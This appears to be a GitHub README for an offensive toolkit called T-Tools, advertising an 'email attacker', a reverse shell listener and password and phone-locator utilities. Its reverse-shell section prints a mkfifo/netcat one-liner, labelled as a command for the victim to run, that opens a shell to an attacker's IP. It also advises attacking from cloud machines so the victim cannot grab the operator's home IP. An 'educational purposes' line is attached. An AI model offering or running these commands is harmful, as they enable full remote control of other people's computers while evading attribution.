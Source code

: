 # T-Tools-advanced--cyber-security 


# What is T-Tools

* T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command.

* And you can use linode, aws or google cloud services to make your cloud machine.

* You can even use ngrok tcp to use reverse - X

# Vol 1.0 

      kali@attacker - $ nano reverse.py
      kali@attacker - $ < add your ip to the listen >
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <attacker ip> 9999 >/tmp/f  
    
    
 # Vol 1.1
 
      kali@attacker - $ python3 reverse.py
      kali@victim - $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 0.0.0.0 ip> 9999 >/tmp/f
           
           
           
           
           
</> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </>         
</> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </> </>           
 
           
                      
Made with 💖 by THB 
